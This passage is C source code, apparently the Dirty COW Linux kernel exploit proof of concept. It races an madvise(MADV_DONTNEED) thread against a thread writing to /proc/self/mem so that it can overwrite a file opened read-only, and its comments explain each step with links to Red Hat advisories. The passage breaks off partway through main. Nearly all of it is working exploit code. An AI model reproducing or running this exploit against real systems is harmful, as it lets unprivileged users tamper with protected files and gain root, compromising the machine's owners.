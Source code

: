 void *map;
int f;
struct stat st;
char *name;
 
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}
 
void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
/*
You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
>  The in the wild exploit we are aware of doesn't work on Red Hat
>  Enterprise Linux 5 and 6 out of the box because on one side of
>  the race it writes to /proc/self/mem, but /proc/self/mem is not
>  writable on Red Hat Enterprise Linux 5 and 6.
*/
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
/*
You have to reset the file pointer to the memory position.
*/
    lseek(f,map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}
 
int main(int argc,char *argv[])
{
/*
You have to pass two arguments. File and Contents.
*/
  if (argc<3)return 1;
  pthread_t pth1,pth2;
/*
You have to open the file in read only mode.
*/
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
/*
You have to use MAP_PRIVATE for copy-on-write mapping.
> Create a private copy-on-write mapping.  Updates to the
> mapping are not visible to other processes mapping the same
> file, and are not carried through to the underlying file.  It
> is unspecified whether changes made to the file after the